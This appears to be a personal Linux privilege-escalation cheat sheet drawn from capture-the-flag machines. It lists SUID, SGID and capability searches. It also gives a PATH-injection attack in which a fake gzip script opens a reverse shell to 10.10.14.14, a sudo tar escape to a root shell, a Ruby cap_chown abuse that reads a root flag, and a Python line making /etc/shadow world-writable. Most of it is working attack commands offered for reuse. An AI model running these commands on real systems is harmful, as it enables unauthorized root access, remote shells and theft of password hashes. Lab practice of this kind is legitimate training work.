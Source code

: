 
## Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


## Finding GUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

## Finding Capabilities
```
getcap -r / 2>/dev/null
```

## Find running TCP connections

```bash
netstat -tunlpn
```

res:-
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                   
udp6       0      0 ::1:161                 :::*                                -                   

```
## Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


##  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```


## with capabilities ruby 

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown

```
/usr/local/bin/ruby = cap_chown+ep
```
![rubyCapChown.png](rubyCapChown.png)

pass id of user which is 1002 and location and get access to that file
```ruby
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

```bash
george@empline:/root$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root/root.txt")'
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
george@empline:/root$ 
```

python:-
```python
python -c 'import os;os.chmod("/etc/shadow",0666)
```

